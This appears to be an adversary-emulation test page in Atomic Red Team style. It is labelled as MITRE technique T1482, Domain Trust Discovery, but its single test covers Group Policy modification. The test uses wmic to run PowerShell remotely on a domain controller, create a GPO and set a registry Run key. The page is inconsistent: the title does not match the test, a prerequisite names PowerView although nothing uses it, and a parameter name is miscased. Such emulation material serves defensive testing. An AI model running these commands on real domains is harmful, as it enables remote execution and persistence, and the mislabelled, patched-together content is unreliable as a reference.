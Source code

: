 # T1482 - Domain Trust Discovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1482)
<blockquote></blockquote>

## Atomic Tests

- [Atomic Test #1 - Poewrshell - Group Policy Modification]


<br/>

## Atomic Test #1 - Group Policy Modification
Use powershell to modify group policy.

**Supported Platforms:** Windows


#### Inputs:
| Name     | Description            | Type   | Default Value |
| -------- | ---------------------- | ------ | ------------- |
| DC_IP    | DC Address             | String | 192.168.1.100 |
| kEY      | REG_KEY                | String | 'HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run' |
| VALUE_NAME    | REG_KEY_VALUE_NAME             | String | 'ValueOne' |
| VALUE    | REG_KEY_VALUE             | String | 'String 1' |
#### Attack Commands: Run with `powershell`! 


```powershell
wmic /node:#{DC_IP} process call create "powershell Set-GPRegistryValue -Name TestGPO -key #{KEY} -ValueName #{VALUE_NAME} -Type String -Value #{VALUE}"
```

#### Dependencies:  Run with `powershell`!
##### Description: PowerView PowerShell script must exist on disk
##### Get Prereq Commands:
```powershell
wmic /node:#{DC_IP} process call create "powershell New-GPO -Name TestGPO"
```
#### CleanUp
##### Cleanup Commands:
```powershell
wmic /node:#{DC_IP} process call create "powershell Remove-GPO -Name TestGPO"
```



<br/>
